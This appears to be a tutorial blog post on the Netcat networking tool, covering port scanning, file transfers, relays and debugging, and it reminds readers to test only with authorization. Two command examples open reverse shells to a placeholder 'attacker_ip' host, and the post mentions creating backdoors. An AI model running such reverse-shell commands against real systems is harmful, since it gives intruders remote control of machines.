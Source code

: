 ```yaml
---
layout: post
title: Mastering Netcat for Networking and Cybersecurity
date: 2024-10-02 15:01:35 +0300
image: '/images/502.png'
tags: [Cybersecurity, Networking, Tools]
---
```


The **Netcat** (nc) command is often referred to as the Swiss Army knife of networking. It is a versatile tool for reading, writing, and analyzing data across network connections using TCP or UDP. Netcat is invaluable for penetration testers, network administrators, and cybersecurity professionals. This blog post explores Netcat’s features, its applications in networking and security, and common use cases. Be sure to follow the included **lab walkthrough** for hands-on practice.

---

## What is Netcat?

Netcat is a command-line utility that facilitates the creation and analysis of network connections. It supports various protocols and can be used for a wide range of tasks, from file transfers to port scanning.

Key capabilities of Netcat include:
- Creating client-server connections for data transfer.  
- Performing port scans to identify open services.  
- Acting as a network debugging and exploration tool.  

Netcat’s simplicity and power make it a must-have tool in any cybersecurity toolkit.

---

## Why Use Netcat in Cybersecurity?

Netcat’s versatility and ease of use make it ideal for cybersecurity and network diagnostics. Here’s why it’s a critical tool:

1. **Establishing Network Connections**  
   Quickly create TCP/UDP connections to test services or troubleshoot issues.

2. **Port Scanning**  
   Identify open ports and services running on a target system.

3. **File Transfers**  
   Easily send and receive files between systems over a network.

4. **Backdoor Creation**  
   Set up backdoors for testing post-exploitation scenarios (authorized use only).

5. **Data Debugging**  
   Analyze raw data sent over network connections.

---

## Key Features of Netcat

### 1. **Creating Network Connections**
Establish TCP or UDP connections to send or receive data.

**Command Example:**
```bash
nc -l -p 1234
```

### 2. **Port Scanning**
Scan for open ports on a target host to identify running services.

**Command Example:**
```bash
nc -zv example.com 1-1000
```

### 3. **File Transfers**
Transfer files between systems using Netcat.

**Command Example:**
```bash
# On the receiver
nc -l -p 1234 > received_file.txt

# On the sender
cat file.txt | nc target_ip 1234
```

### 4. **Creating Reverse Shells**
Test reverse shell connections for penetration testing purposes.

**Command Example:**
```bash
nc -e /bin/bash attacker_ip 4444
```

### 5. **Debugging and Analysis**
Send and receive raw data to debug network issues.

**Command Example:**
```bash
echo "Test Data" | nc target_ip 1234
```

---

## Common Use Cases for Netcat

### 1. **Port Scanning**
Identify open ports and services for network reconnaissance.

**Command Example:**
```bash
nc -zv example.com 80 443
```

### 2. **File Transfers**
Send and receive files over TCP connections.

### 3. **Reverse Shell Setup**
Establish reverse shells for authorized penetration testing.

**Command Example:**
```bash
nc -e cmd.exe attacker_ip 4444
```

### 4. **Testing Services**
Manually connect to services to troubleshoot connectivity.

**Command Example:**
```bash
nc example.com 80
GET / HTTP/1.1
```

### 5. **Relay and Proxy Connections**
Use Netcat to forward data between two endpoints for testing.

**Command Example:**
```bash
nc -l -p 1234 | nc target_ip 5678
```

---

## Ethical Considerations

Netcat is a powerful tool that must be used responsibly and ethically. Always:
- Obtain explicit permission before testing networks.
- Avoid unauthorized use that could disrupt services or breach legal regulations.
- Follow industry standards, such as the **OWASP Testing Guide** or **NIST SP 800-115**.

---

## A Deeper Dive: Hands-On Lab

This blog post is accompanied by a hands-on lab walkthrough that demonstrates:
- Using Netcat for port scanning and service testing.
- Creating client-server connections for file transfers.
- Setting up reverse shells for post-exploitation testing.

The lab provides practical exercises to help you master Netcat and its applications in cybersecurity. Don’t miss this opportunity to refine your skills.

---

> "The greatest glory in living lies not in never falling, but in rising every time we fall."  
> <cite>Nelson Mandela</cite>

---

## Conclusion

Netcat is a versatile and powerful tool for networking and cybersecurity tasks. Its ability to create connections, analyze data, and test network services makes it indispensable for professionals in the field.

The accompanying hands-on lab walkthrough provides a practical introduction to Netcat’s capabilities, allowing you to explore its applications in real-world scenarios. By mastering Netcat, you can enhance your network diagnostics and security testing skills. Dive into the lab and elevate your expertise today.
